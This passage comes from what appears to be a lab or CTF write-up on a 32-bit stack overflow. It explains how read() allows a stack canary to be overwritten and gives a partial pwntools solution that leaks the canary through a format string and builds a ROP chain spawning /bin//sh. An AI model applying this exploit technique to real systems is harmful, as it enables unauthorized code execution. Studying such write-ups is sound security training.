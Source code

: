So, to overwrite the remaining 3 bytes of the canary, we will need to instead, use a function that will continue reading our input after it encounters a NULL byte.

One such function exists in the `findSomeWords()` function.

{% highlight C %}
char buf[24];
read(STDIN, buf, 2048); // >> read a lot every day !
{% endhighlight %}

**`read()` does not stop reading after it encounters a NULL byte. It only stops reading after it encounters a newline char.**

This will allow us to patch the stack cookie and continue overwriting into the return address and beyond.

The only other things we need to do for this lab are to bypass the **XOR** check, find a `ret` gadget to move us up the stack, and to overwrite the stack starting at the address immediately before the saved return address, with a ROP chain. 

Putting everything together, the following solution granted me a shell.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def exploit(r):
    r.recvuntil(": ")
    r.sendline("%130$p")
    cookie = int(r.recvuntil(".").split("\n")[0],16)
    log.success("cookie leaked: "+hex(cookie))
    r.sendline("A")
    r.recvuntil("<==  ")

    p  = ''
    p += p32(0x0806f22a) # pop edx ; ret
    p += p32(0x080ec060) # @ .data
    p += p32(0x080bc506) # pop eax ; ret
    p += '/bin'
    p += p32(0x080a2cfd) # mov dword ptr [edx], eax ; ret
    p += p32(0x0806f22a) # pop edx ; ret
    p += p32(0x080ec064) # @ .data + 4
    p += p32(0x080bc506) # pop eax ; ret
    p += '//sh'
    p += p32(0x080a2cfd) # mov dword ptr [edx], eax ; ret
    p += p32(0x0806f22a) # pop edx ; ret
    p += p32(0x080ec068) # @ .data + 8
    p += p32(0x08054ab0) # xor eax, eax ; ret
    p += p32(0x080a2cfd) # mov dword ptr [edx], eax ; ret
    p += p32(0x080481c9) # pop ebx ; ret
    p += p32(0x080ec060) # @ .data
    p += p32(0x080e71c5) # pop ecx ; ret
    p += p32(0x080ec068) # @ .data + 8
    p += p32(0x0806f22a) # pop edx ; ret
    p += p32(0x080ec068) # @ .data + 8
    p += p32(0x08054ab0) # xor eax, eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret